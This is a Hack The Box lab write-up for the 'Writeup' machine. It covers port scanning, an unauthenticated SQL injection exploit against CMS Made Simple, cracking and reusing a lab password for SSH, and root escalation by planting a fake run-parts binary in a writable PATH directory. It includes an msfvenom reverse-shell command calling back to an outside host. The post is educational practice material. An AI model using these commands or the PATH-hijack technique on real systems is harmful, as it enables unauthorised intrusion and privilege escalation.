 ```yaml
---
layout: single
title: Writeup - Hack The Box
excerpt: "The writeup begins with a straightforward unauthenticated vulnerability in CMS Made Simple, which I exploit to retrieve the database credentials. After cracking the user's hash, I discover they reused the same password for SSH, allowing me to access the machine. The privilege escalation is particularly interesting: I have write permissions on /usr/local, enabling me to place a binary payload that gets executed by run-parts when I log in via SSH, as it is invoked without the full path."
date: 2024-11-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-writeup/writeup_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - linux
  #- sqli
  #- cms
---
```


![](/assets/images/htb-writeup-writeup/writeup_logo.png)

Writeup starts off easy with an unauthenticated vulnerability in CMS Made Simple that I exploit to dump the database credentials. After cracking the user hash, I can log in to the machine because the user re-used the same password for SSH. The priv esc is pretty nice: I have write access to `/usr/local` and I can write a binary payload in there that gets executed by run-parts when I SSH in because it's called without the full path. Another nice box by jkr.

## Summary

- Unauthenticated SQL injection in CMS Made Simple gives us the password hash which we can crack
- The CMS user / password can be used to SSH in to the server (password re-use)
- The `/usr/local/bin` directory is writable by low-priv user and we can hijack `run-parts` which is run by root when SSHing in (path abuse)

## Tools/Blogs used

- CMS Made Simple < 2.2.10 - SQL Injection (exploits/php/webapps/46635.py)

### Portscan

```
# nmap -p- 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-08 22:30 EDT
Nmap scan report for writeup.htb (10.10.10.138)
Host is up (0.018s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.16 seconds
```

### Website enumeration

The website contains information about fail2ban or a similar kind of script running to prevent 40x errors. This means that if we try to dirbust the site we'll probably get banned.

![](/assets/images/htb-writeup-writeup/1.png)

So I checked `robots.txt` and found the following:

```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

Checking out `http://10.10.10.138/writeup/` I see it's some kind of barebone webpage.

![](/assets/images/htb-writeup-writeup/2.png)

The links just display different writeups for previous HTB boxes. I couldn't trigger any LFI, RFI or SQL injection from `/writeup/index.php?page=`

There's a hint at the bottom of the page that it's *NOT* made with vim.

![](/assets/images/htb-writeup-writeup/3.png)

Checking out the source code, I can see it's made with CMS Made Simple.

![](/assets/images/htb-writeup-writeup/4.png)

### SQL injection in CMS

Checking out searchsploit, I see a whole bunch of exploits for that CMS.

![](/assets/images/htb-writeup-writeup/5.png)

The one I highlighted above is an Unauthenticated SQL Injection that allows an attacker to dump the username and password hash from the database. To exploit it, we just need to pass the URI of the CMS and the wordlist we'll use to crack the password hash:

`python exploit.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt`

![](/assets/images/htb-writeup-writeup/6.png)

We just found the password for user `jkr`: `raykayjay9`

The CMS administration webpage at `http://10.10.10.138/writeup/admin` is protected by an additional HTTP basic web authentication. This is not part of the standard CMS deployment so it was probably added by the box creator. I'm not able to authenticate using the credentials I found in the database and if I try to bruteforce it I get locked out by fail2ban.

However the credentials do work with SSH and I'm able to get a shell and the first flag:

```
# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ cat user.txt
d4e493...
```

### Privesc

My user is part of the following groups: `uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)`

I ran through the standard Linux enumeration, checking permissions on files and directories, and noticed that I have write access to folders inside `/usr/local`:

```
jkr@writeup:~$ ls -l /usr/local
total 56
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x 4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx 1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x 7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 src
```

However, I can't see the contents of `/usr/local/bin` and `/usr/local/sbin`. This is not a standard Linux distro configuration so the box creator probably changed the permissions on purpose so HTB players can't piggy-back on other players binaries.

I copied `pspy` to the box and found a cronjob running every minute:

![](/assets/images/htb-writeup-writeup/7.png)

I don't have access to the content of the script but it's safe to assume that it deletes files or folders somewhere on the system. I created a test file inside `/usr/local/bin` to see if the script would delete it. After a minute, I saw that the file was removed:

```
jkr@writeup:/usr/local/bin$ echo test > test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
cat: test: No such file or directory
```

Because we can write files into `/usr/local/bin` and `/usr/local/sbin`, we can potentially get RCE since the default path for users is the following:

```
jkr@writeup:/usr/local/bin$ cat /etc/profile
# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "`id -u`" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```

`/usr/local/bin` and `/usr/local/sbin` are preferred over the other paths so it's clear what we need to do here:

 - Find the filename of something that is executed by root (that filename must be executed without the full path)
 - Find the trigger for executing that command as root

I thought I could use `grep` or `iptables` but that didn't work. I think it's because the programs are executed by fail2ban which is started with a modified path as per `/etc/init.d/fail2ban`:

```
PATH=/usr/sbin:/usr/bin:/sbin:/bin
```

I also noticed that the `run-parts` program is executed whenever I SSH in:

![](/assets/images/htb-writeup-writeup/8.png)

> run-parts runs all the executable files named within constraints described below, found in directory  directory. Other files and directories are silently ignored.

I can't make run-parts run arbitrary binaries since I can't write `/etc/update-motd.d/` but because the program is run without the full path I can write my own `run-parts` binary to `/usr/local/bin` or `/usr/local/sbin` and it will be executed instead of the real one because the directory is located in front in the PATH variable definition.

For the malicious binary, I use a standard linux reverse shell payload generated with Metasploit:
```
# msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=10.10.14.7 LPORT=4444
chmod +x ./shell
```

I just need to upload the file to `/usr/local/bin/run-parts` and SSH in to trigger a callback and get root privileges.

![](/assets/images/htb-writeup-writeup/9.png)

